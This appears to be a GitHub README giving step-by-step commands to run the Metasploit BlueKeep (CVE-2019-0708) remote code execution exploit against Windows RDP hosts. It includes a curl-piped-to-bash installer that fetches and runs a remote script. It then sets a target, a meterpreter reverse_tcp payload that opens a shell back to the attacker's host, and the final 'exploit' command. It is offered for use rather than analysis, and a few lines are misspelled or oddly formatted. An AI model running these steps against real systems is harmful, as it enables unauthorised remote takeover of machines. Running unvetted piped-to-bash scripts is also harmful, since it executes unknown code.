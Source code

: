 [![Read more](https://github.com/nu11secur1ty/Kali-Linux/blob/master/BlueKeep/wall/BlueKeep_OG.jpg)](https://blog.rapid7.com/2019/09/06/initial-metasploit-exploit-module-for-bluekeep-cve-2019-0708/)

More: https://github.com/rapid7/metasploit-framework/pull/12283

- Start manipolation:
```xml
https://github.com/nu11secur1ty/Kali-Linux/blob/master/BlueKeep/cve_2019_0708_bluekeep_rce/cve_2019_0708_bluekeep_rce.rb#L398
```


- Automation installer:
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/Kali-Linux/master/BlueKeep/bk.sh | bash
```
- SET Target:
```bash
SET RHOSTS 0.0.0.0 # target
SET payload windows/64x/meterpreter/reverse_tcp # set the module
SET LHOST 0.0.0.0 # Your IP for receavin
```
- Check for targets
```bash
show targets
```
- Set Target number
```bash
SET target x
```
- Exploit the target 
```bash 
exploit
```
